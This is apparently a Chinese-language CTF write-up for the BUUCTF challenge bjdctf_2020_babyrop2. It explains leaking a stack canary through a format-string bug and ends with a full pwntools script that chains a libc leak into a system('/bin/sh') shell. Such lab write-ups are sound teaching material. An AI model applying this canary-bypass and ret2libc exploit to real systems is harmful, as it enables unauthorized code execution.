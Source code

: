 ### Printf 泄露 Canary

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b42be6d0e0a243d40070c9.png)

先 checksec 一下发现开启了 Canary 及 NX

![](https://pic1.imgdb.cn/item/67b42c4fd0e0a243d40070e8.png)

反编译先看 main 函数

![](https://pic1.imgdb.cn/item/67b42c7dd0e0a243d40070fb.png)

首先调用了 init 函数打印了两句话

![](https://pic1.imgdb.cn/item/67b42cb7d0e0a243d4007113.png)

再是 gift 函数，这里明显存在字符串格式化漏洞

![](https://pic1.imgdb.cn/item/67b42d42d0e0a243d4007134.png)

最后是 vuln 函数

![](https://pic1.imgdb.cn/item/67b42d72d0e0a243d4007139.png)

buf 缓冲区存在溢出

![](https://pic1.imgdb.cn/item/67b42d7cd0e0a243d400713a.png)

尝试常规方法泄露但不行

![](https://pic1.imgdb.cn/item/67b42e33d0e0a243d400715d.png)

输入 %n$p（用法参考 2.1）

可以看到偏移是 6

![](https://pic1.imgdb.cn/item/67b42f2fd0e0a243d4007183.png)

使用 gdb 调试发现在字符串下面一行就是 Canary 的值

![](https://pic1.imgdb.cn/item/67b430a5d0e0a243d40071e6.png)

所以输入 %7$p 就能泄露 Canary 的值

![](https://pic1.imgdb.cn/item/67b43228d0e0a243d4007239.png)

![](https://pic1.imgdb.cn/item/67b43244d0e0a243d400723f.png)

64 位系统还需要一个 pop rdi;ret

![](https://pic1.imgdb.cn/item/67b4329fd0e0a243d400724a.png)

Canary 保护会从 rbp-4 或者 rbp-8 的位置取出并与 fs/gs 寄存器对应位置的值进行比较

如果不相等就会执行 __ stack_chk_fail 函数，这个函数强行停止程序运行并发出警告，从而阻止栈溢出攻击

所以在最后填上 Canary 的值来绕过

```python
from pwn import *
from LibcSearcher import *

r = remote('node3.buuoj.cn',26842)
elf = ELF('./bjdctf_2020_babyrop2')

payload = '%7$p'

r.sendline(payload)
r.recvuntil('0x')

cancry = int(r.recv(16),16)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x0400993
main_addr = elf.symbols['main']
vuln_addr = 0x0400887

# 'a' * (0x20 - 8) + p64(cancry)：绕过 cancry
# p64(0)：覆盖 ebp
payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln_addr)

r.recvuntil('story!\n')
r.sendline(payload)

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - libc.dump('puts')
system_addr = base_addr + libc.dump('system')
shell_addr = base_addr + libc.dump('str_bin_sh')

r.recvuntil('story!\n')

payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(shell_addr) + p64(system_addr) + p64(main_addr)

r.sendline(payload)
r.interactive()
```


